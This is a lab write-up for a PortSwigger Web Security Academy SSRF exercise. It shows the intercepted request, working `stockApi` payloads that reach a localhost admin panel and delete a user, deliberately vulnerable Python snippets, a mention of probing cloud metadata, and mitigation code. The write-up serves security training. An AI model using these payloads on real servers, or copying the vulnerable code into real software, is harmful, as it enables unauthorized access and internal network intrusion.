


# Lab 01: Basic SSRF against the Local Server

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Internal Service Access via Unvalidated URL Parameter

## Vulnerability Summary
The application's stock-check feature accepts a full URL via the `stockApi` POST parameter and makes a server-side HTTP request to it without any validation on the destination. The internal admin panel at `/admin` trusts all requests originating from localhost unconditionally and has no authentication of its own. By supplying `http://localhost/admin` as the `stockApi` value, the server fetches and returns the admin panel to the attacker. By then pointing it at `http://localhost/admin/delete?username=carlos`, the server executes the admin action on the attacker's behalf — with no credentials required.

## Attack Methodology

### Step 1: Recon
Opened a product page and clicked "Check stock". Intercepted the outgoing request in Burp Repeater:

```
POST /product/stock HTTP/2
Host: 0ab200430378474d8004171e00890072.web-security-academy.net
Cookie: session=q1PBhw90gxRyY3Dqg6L7WbytMvgwGCAH
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

stockApi=https://stock.weliketoshop.net/product/stock/check?productId=2&storeId=1
```

The `stockApi` parameter is a full URL that the server fetches server-side. No token, no origin check, no restriction on what the URL can point to.

### Step 2: Probe the Internal Admin Panel
Replaced the `stockApi` value with `http://localhost/admin` and sent the request:

```
stockApi=http://localhost/admin
```

The response body returned the rendered admin panel — including a user list showing `wiener` and `carlos`, each with a Delete link pointing to `/admin/delete?username=<user>`.

This confirms two things: the server is making the request from its own loopback interface, and the admin panel grants unrestricted access to any request arriving from localhost.

### Step 3: Delete the Target User
Extracted the delete URL from the admin panel response and set `stockApi` to:

```
stockApi=http://localhost/admin/delete?username=carlos
```

Response:

```
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=GD3lqUh6wHYwYC06qI35PVY5DnkDMnoB; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

The server followed through with the deletion and redirected back to `/admin`. Lab solved.





## Technical Root Cause

```python
# Vulnerable — passes user-supplied URL directly to an HTTP client
def check_stock(request):
    stock_api_url = request.POST.get('stockApi')
    response = requests.get(stock_api_url)   # no validation, no allowlist
    return HttpResponse(response.content)
```

The server acts as an open proxy. Any URL the attacker supplies — including `http://localhost`, `http://127.0.0.1`, or internal RFC-1918 addresses — will be fetched and the response returned. The admin panel compounds this by using network origin as its sole access control:

```python
# Vulnerable — admin panel trusts localhost unconditionally
def admin_panel(request):
    if request.META.get('REMOTE_ADDR') != '127.0.0.1':
        return HttpResponseForbidden()
    # full admin access granted — no further authentication
```

These two weaknesses chain directly: SSRF gives the attacker a request that appears to come from `127.0.0.1`, and the admin panel trusts `127.0.0.1` without question.

### Why This Works

| stockApi Value | Request Origin (as seen by admin) | Admin Access Granted? |
|---|---|---|
| `https://stock.weliketoshop.net/...` | External | N/A — legitimate stock endpoint |
| `http://localhost/admin` | 127.0.0.1 | Yes — trusted unconditionally |
| `http://localhost/admin/delete?username=carlos` | 127.0.0.1 | Yes — action executed |

## Impact
- **Unauthenticated Admin Access**: Any authenticated user can reach the admin panel and perform admin actions with no additional credentials
- **Arbitrary User Deletion**: Full control over user management via the admin interface
- **Internal Network Exposure**: The same primitive can be used to probe internal services, cloud metadata endpoints (`http://169.254.169.254`), and management APIs that assume they are only reachable from trusted infrastructure
- **No Special Privileges Required**: Any user with access to the stock-check feature can exploit this

## Proof of Concept

**Step 1 — Retrieve admin panel:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin
```

**Step 2 — Delete target user:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin/delete?username=carlos
```

## Key Takeaways
1. **User-Supplied URLs Must Never Be Fetched Without Validation**: Any parameter that controls a server-side HTTP request is a potential SSRF vector. Validate against an explicit allowlist of permitted hosts and paths before making the request.
2. **Network Origin Is Not Authentication**: Restricting an admin panel to `127.0.0.1` only works if nothing on the server can be made to proxy requests to it. SSRF breaks that assumption entirely — the admin panel needs its own authentication layer.
3. **SSRF Chains Into Privilege Escalation**: On its own, SSRF gives read access to internal responses. When combined with an unauthenticated internal endpoint that performs state-changing actions, it becomes a direct privilege escalation primitive.
4. **The Response Body Is the Recon Tool**: The server returned the full admin panel HTML in the SSRF response, including the exact delete URLs. In blind SSRF scenarios this wouldn't be available — but here the application helpfully handed over the entire attack surface.

## Mitigation

### 1. Validate the stockApi URL Against an Allowlist
```python
from urllib.parse import urlparse

ALLOWED_HOSTS = {'stock.weliketoshop.net'}

def check_stock(request):
    stock_api_url = request.POST.get('stockApi', '')
    parsed = urlparse(stock_api_url)
    if parsed.hostname not in ALLOWED_HOSTS:
        return HttpResponseForbidden('Invalid stockApi host')
    response = requests.get(stock_api_url)
    return HttpResponse(response.content)
```

### 2. Block Requests to Internal Addresses
```python
import ipaddress, socket

def is_internal(hostname):
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        return ip.is_loopback or ip.is_private
    except Exception:
        return True  # fail closed

if is_internal(parsed.hostname):
    return HttpResponseForbidden('Internal addresses not permitted')
```

### 3. Add Authentication to the Admin Panel
```python
# Admin panel must verify session credentials independently of network origin
def admin_panel(request):
    if not request.user.is_staff:
        return HttpResponseForbidden()
    # proceed with admin logic
```

### 4. Use a Dedicated Egress Proxy
Route all server-side outbound requests through a proxy with strict allowlisting, rather than allowing the application server to make arbitrary outbound connections directly.

## References
- [PortSwigger SSRF Lab - Basic SSRF against the Local Server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
- [PortSwigger SSRF — What is SSRF?](https://portswigger.net/web-security/ssrf)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-04-20*
*Writeup by vibhxr*
